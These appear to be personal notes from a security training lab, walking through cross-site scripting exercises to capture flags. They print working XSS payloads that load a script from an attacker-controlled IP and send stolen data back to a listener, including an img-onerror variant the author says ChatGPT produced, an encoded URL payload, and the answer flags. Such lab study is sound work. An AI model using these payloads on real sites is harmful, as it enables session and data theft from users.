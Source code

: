 Original
```html
<script src="http://192.168.45.223:80/xss2.js"></script>
```
Converted utilizing the `img` tag and `onerror`  with chatgpt
```bash
<img src="nonexistent.jpg" onerror="this.onerror=null;document.write('<script src=\'http://192.168.45.223:80/xss2.js\'><\/script>');" />
```
Placing the new script into the `List` applications vulnerable field and playing with the spaces between `,` until it accepts the input pushes it to this default screen
![[Pasted image 20240801205526.png]]
but if we check the `python3 http.server` that we opened, we can see that it worked by attempting to grab it
![[Pasted image 20240801205607.png]]
Now in order to exploit it, it is kinda a race condition because you have to put the new script in the field hit share, and copy the `csv` code that gets spit out before it whites out the screen.
![[Pasted image 20240801212817.png]]
`csv` conversion  dont once hitting share
```bash
?csv=IyxVc2VyLGFjdGl2ZQo8aW1nIHNyYz0ibm9uZXhpc3RlbnQuanBnIiBvbmVycm9yPSJ0aGlzLm9uZXJyb3I9bnVsbDtkb2N1bWVudC53cml0ZSgnPHNjcmlwdCBzcmM9XCdodHRwOi8vMTkyLjE2OC40NS4yMjM6ODAveHNzMi5qc1wnPjxcL3NjcmlwdD4nKTsiIC8%2BLFNhbWFudGhhLDEK
```
once you get the `csv` payload, you put it into the url and hit search, hit render and the victim will be in a forever loop of loading
![[Pasted image 20240801211257.png]]
If we check the `python3 -m http.server 80` and we see the flag
![[Pasted image 20240801211453.png]]
Decode the string using a `URL Decoder` and we will have the flag
![[Pasted image 20240801211612.png]]
`OS{98256e4b119800c9ed4a67a899f32538}`

###### 4
![[Pasted image 20240801213608.png]]
Go to the `ToDo` section, insert the payload below
```html
<script src="http://192.168.45.223:80/xss2.js"></script>
```
render the page on the victim side
![[Pasted image 20240801213227.png]]
check `python3 -m http.server 80` and profit
![[Pasted image 20240801213402.png]]
translate the flag with a `URL decoder`
```bash
flag%3DOS%7B58256e4b119800c9ed4a67a899f32538%7D
```
![[Pasted image 20240801213511.png]]
`OS{58256e4b119800c9ed4a67a899f32538}`
